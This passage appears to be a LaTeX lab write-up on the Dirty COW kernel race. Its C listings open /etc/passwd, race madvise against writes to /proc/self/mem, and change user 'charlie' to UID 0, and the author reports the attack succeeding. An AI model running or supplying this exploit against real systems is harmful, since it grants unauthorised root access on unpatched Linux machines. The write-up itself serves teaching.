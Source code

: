 \documentclass[12pt,reqno]{amsart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\begin{figure}[h]
\begin{lstlisting}[style=CStyle, firstnumber=22]
  // Open the target file in the read-only mode.
  int f=open("/etc/passwd", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "charlie:x:1001");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
\end{lstlisting}
\caption{Inside \code{main}. Omitted some declarations for brevity. It's task is to find the position of the target, which we can do with read access alone, and then launch the threads. It waits for the threads to finish, but the threads run forever so the user has to manually interrupt the program to exit.}
\end{figure}

\begin{figure}[h] 
\begin{lstlisting}[style=CStyle, firstnumber=46]
void *writeThread(void *arg) {
  char *content= "charlie:x:0000";
  off_t offset = (off_t) arg;
  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
\end{lstlisting}
\caption{\code{write} thread. Writes the content to the position of the target. If lucky, this will be conducted on the memory that is supposed to be used by madvise.}
\end{figure}

\begin{figure}[h] 
\begin{lstlisting}[style=CStyle, firstnumber=61]
void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
    madvise(map, file_size, MADV_DONTNEED);
  }
}
\end{lstlisting}
\caption{\code{madvise} thread. A system call to cause copy-on-write (COW).}
\end{figure}

When we call these two threads (figures 4 and 5) there is a chance that the write will actually write to the mapped memory that is used by madvise in a COW fashion. COW is a technique of sharing a resource: when the resourse is required but will not be modified, then it is wasteful to create a copy, but what should happen is that the resource itself is delivered. At this point, if the write thread can intercept the memory it can write to it. Since we may not always be lucky and achieve this in a single function call, the threads run forever and the attack is interrupted by the adversary. In my own case, I ran it for around 5-6 seconds and it was always successful.
\end{document}
